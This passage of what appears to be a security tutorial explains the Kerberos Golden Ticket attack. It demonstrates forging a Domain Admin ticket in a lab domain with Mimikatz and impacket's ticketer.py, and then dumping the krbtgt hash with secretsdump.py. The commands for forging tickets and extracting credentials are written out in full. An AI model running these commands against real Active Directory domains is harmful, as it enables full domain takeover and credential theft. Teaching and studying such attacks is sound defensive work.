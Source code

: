 With such a TGT in his hands, the user can ask the KDC for any TGS for any service. These TGSs will have a copy of the PAC that the attacker has forged, certifying that he is a Domain Admin.

It is this forged TGT that is called **Golden Ticket**. 

[![Golden Ticket](/assets/uploads/2019/02/goldenticket.png)](/assets/uploads/2019/02/goldenticket.png)

In practice, here is a demonstration of how to create a **Golden Ticket**. First, we are in a session that does not have a cached ticket, and does not have the rights to access **C$** share on the domain controller `\\DC-01.adsec.local\C$`.

[![Access denied](/assets/uploads/2019/03/golden_ticket_access_denied.png)](/assets/uploads/2019/03/golden_ticket_access_denied.png)

We then generate the **Golden Ticket** using the NT hash of the account `krbtgt`.

[![GT Generation](/assets/uploads/2019/03/golden_ticket_generated.png)](/assets/uploads/2019/03/golden_ticket_generated.png)

Here's the command line used in Mimikatz:

```
/kerberos::golden /domain:adsec.local /user:random_user /sid:S-1-5-21-1423455951-1752654185-1824483205 /krbtgt:0123456789abcdef0123456789abcdef /ptt
```

This command line creates a ticket for `adsec.local` domain with an arbitrary username (`random_user`), by providing the NT hash of `krbtgt` user. It creates a TGT with a PAC indicating that we are Domain Admin (among other things), and that we are called random_user (arbitrarily chosen).

Once we have this ticket in memory, our session is able to request a TGS for any [SPN](/service-principal-name-spn/), e.g. for `CIFS\DC-01.adsec.local` to read the contents of the share `\\DC-01.adsec.local\C$`.

[![GT granted](/assets/uploads/2019/03/golden_ticket_access_granted.png)](/assets/uploads/2019/03/golden_ticket_access_granted.png)

It is also possible to create a Golden Ticket under linux using [impaket](https://github.com/SecureAuthCorp/impacket), via `ticketer.py`.

```bash
ticketer.py -nthash 0123456789abcdef0123456789abcdef -domain-sid S-1-5-21-1423455951-1752654185-1824483205 -domain adsec.local random_user
``` 

Then export the ticket path into the same special environment variable as before, called `KRB5CCNAME`.

```bash
export KRB5CCNAME='/chemin/vers/random_user.ccache'
```

Finally, all the tools from **impacket** can be used with this ticket, via the `-k` option.

```bash
secretsdump.py -k DC-01.adsec.local -just-dc-ntlm -just-dc-user krbtgt
```


## Encryption methods
